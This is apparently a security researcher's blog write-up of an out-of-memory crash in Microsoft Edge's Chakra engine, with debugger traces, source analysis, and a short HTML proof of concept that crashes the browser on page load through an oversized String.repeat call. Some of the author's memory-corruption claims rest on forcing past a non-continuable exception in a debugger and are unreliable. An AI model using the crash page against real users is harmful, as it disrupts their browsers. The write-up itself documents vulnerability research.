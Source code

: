 ```yaml
---
layout: post
title:  "Microsoft Edge - Out-of-Memory Error Issue (MSRC Case 47790)"
date:   2019-01-02 10:05:03 +0800
categories: [security, memory]
---
```


Overview
--------
An out-of-memory error issue was found in Microsoft Edge resulting an unhandled exception in the browser. The issue was found using Domato fuzzer (modified). After minimizing the POC, it turns out that the issue can be trigger with a few lines of JavaScript. The issue has been reported to Microsoft (MSRC Case 47790) and they said:

**"Our engineer review the report and this isn't a security issue. Anything that lands on JavascriptError::ThrowOutOfMemoryError is not continuable and is not considered as a security issue, Edge just dies because it cant allocate memory. We can of course revisit if you can show a different behavior without throwing that OOM error."**

Thus, the issue is not really an security issue unless I can prove or someone can proven that the issue can be trigger without throwing an OOM. Further investigation, found the crash happened is by an exception that is explicitly raised by the application and in normal circumstances, there is no way to trick the browser to continue any code execution beyond the OOM (without debugger).

Initial Crash Information
-------------------------
Crash triage:
```
(1a00.224): Break instruction exception - code 80000003 (first chance)
KERNELBASE!wil::details::DebugBreak+0x2:
00007ff8`b61f6af2 cc int 3
```
It is found that the crash indeed not land to the access violation. If we continue execution, we can observe memory corrupted which leads to out-of-memory issue.
```
1:062> g
WARNING: Continuing a non-continuable exception
(1a00.224): Break instruction exception - code 80000003 (first chance)
chakra!Js::JavascriptError::ThrowOutOfMemoryError+0x13:
00007ff8`987318bf cc int 3
```
Continue executing in WinDBG, we can see a memory corruption happened here:
```
1:062> g
(1a00.224): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
msvcrt!memcpy+0x20:
00007ff8`b7812ee0 488b040a mov rax,qword ptr [rdx+rcx] ds:0053002b`002b003b=????????????????
```

Root Cause Analysis
-------------------
Observing the stack trace, we can see the stack executing in a sequence of:
```
1:064> k
# Child-SP RetAddr Call Site
00 000000dc`643fa858 00007ffb`69aabfb2 KERNELBASE!wil::details::DebugBreak+0x2
01 000000dc`643fa860 00007ffb`6999e033 chakra!ReportFatalException+0x26
02 000000dc`643fa8a0 00007ffb`69c13fd6 chakra!OutOfMemory_fatal_error+0x23
03 000000dc`643fa8e0 00007ffb`69991c70 chakra!Js::Exception::RaiseIfScriptActive+0x3a
04 000000dc`643fa910 00007ffb`698bc4a4 chakra!Js::Throw::OutOfMemory+0x10**
05 000000dc`643fa950 00007ffb`698bcf7f chakra!Memory::Recycler::LargeAlloc<0>+0x30
06 000000dc`643fa9a0 00007ffb`69bc4e93 chakra!Memory::Recycler::AllocLeaf+0x17f
07 000000dc`643faa10 00007ffb`69a09311 chakra!Js::JavascriptString::RepeatCore+0xb3
08 000000dc`643faac0 00007ffb`6998efb6 chakra!Js::JavascriptString::EntryRepeat+0x26f771
09 000000dc`643fab10 00007ffb`6986402b chakra!amd64_CallFunction+0x86
```
Examining the stack trace found the root-cause were coming from **JavascriptString::RepeatCore**. The issue found to fail sanitize the repeated string size (buffer). Since the Chakra core source is public, we can examine based on source code and our stack trace. 

Analysis of **JavascriptString::EntryRepeat** (only included the comment)
```
https://github.com/Microsoft/ChakraCore/blob/master/lib/Runtime/Library/JavascriptString.cpp#L2496

// get the input and perform processing
if (args.Info.Count > 1)
{
	if (!JavascriptOperators::IsUndefinedObject(args[1], scriptContext))
	{
		double countDbl = JavascriptConversion::ToInteger(args[1], scriptContext);
		if (JavascriptNumber::IsPosInf(countDbl) || countDbl < 0.0)
		{
      // it should throw this message however, our input manage to bypass this part
			JavascriptError::ThrowRangeError(scriptContext, JSERR_ArgumentOutOfRange, u("String.prototype.repeat")); 
		}
		count = NumberUtilities::LuFromDblNearest(countDbl);
	}
}

// get the length of the input
if (count == 0 || pThis->GetLength() == 0)
{
	return scriptContext->GetLibrary()->GetEmptyString();
}
else if (count == 1)
{
	return pThis; // this results from our length of buffer and store at pThis
}

// once all passes, it will return all the processing, length and input buffer to RepeatCore
return RepeatCore(pThis, count, scriptContext);
```

Analysis of **JavascriptString::RepeatCore**
```
https://github.com/Microsoft/ChakraCore/blob/master/lib/Runtime/Library/JavascriptString.cpp#L2538

... cut here ... 
const char16* currentRawString = currentString->GetString();
charcount_t currentLength = currentString->GetLength();
charcount_t finalBufferCount = UInt32Math::Add(UInt32Math::Mul(count, currentLength), 1);
char16* buffer = RecyclerNewArrayLeaf(scriptContext->GetRecycler(), char16, finalBufferCount);
if (currentLength == 1) // pass the current length, means pass our arguments here
{
	wmemset(buffer, currentRawString[0], finalBufferCount - 1);
	// passing our arguments here throwing the application to out-out-bound write, resulting overwriting into registers r12, r13 and r15.
	buffer[finalBufferCount - 1] = '\0'; 
}
``` 

To confirm our analysis, we can see value r14 is holding current length. We can observe the value in registers.
```
1:064> u chakra!Js::JavascriptString::RepeatCore+0xb3
chakra!Js::JavascriptString::RepeatCore+0xb3:
00007ffb`69bc4e93 488bd8 mov rbx,rax
00007ffb`69bc4e96 4183fe01 cmp r14d,1     // currentLength
```
Observing our registers and we got the result:
```
rax=000000dc643fa830 rbx=0000000000000000 rcx=000000dc643fa858
rdx=0052ff4e9beb57e3 rsi=0000000000000040 rdi=0053002b002b0033
rip=00007ffb88df2ee0 rsp=000000dc643fa830 rbp=000000dc643faa80
r8=0000000000000040 r9=0000000000000008 r10=0000000000000000
r11=000000dc643fa858 r12=0000000041414141 r13=0000000041414142
r14=0000000000000001 r15=0000000041414141
```

Continuing execution we can observe final land of the out-of-memory path:
```
1:064> k
# Child-SP RetAddr Call Site
00 000000dc`643fa830 00007ffb`69b40d7f msvcrt!memcpy+0x20
01 000000dc`643fa838 00000000`00000000 chakra!Js::JavascriptError::ThrowParserError+0x2f
1:064> r
rax=000000dc643fa830 rbx=0000000000000000 rcx=000000dc643fa858
rdx=0052ff4e9beb57e3 rsi=0000000000000040 rdi=0053002b002b0033
rip=00007ffb88df2ee0 rsp=000000dc643fa830 rbp=000000dc643faa80
r8=0000000000000040 r9=0000000000000008 r10=0000000000000000
r11=000000dc643fa858 r12=0000000041414141 r13=0000000041414142
r14=0000000000000001 r15=0000000041414141
iopl=0 nv up ei pl nz ac pe nc
cs=0033 ss=002b ds=002b es=002b fs=0053 gs=002b efl=00010212
msvcrt!memcpy+0x20:
00007ffb`88df2ee0 488b040a mov rax,qword ptr [rdx+rcx]ds:0053002b`002b003b=????????????????
```

**Proof-of-Concept**
```
<html>
<script>
function freememory() {
	try { CollectGarbage(); } catch(err) { }
	try { window.gc(); } catch(err) { }
}

function minimize_poc(){
	try{
		var var00015 = 'a'.repeat(0x41414141);
		eval(var00015);
	} catch(e){}
	
	freememory();
}
</script>
<body onload=minimize_poc()>
</body>
</html>
```

Sign off for now. Feel free to dispute, etc. Happy reading!
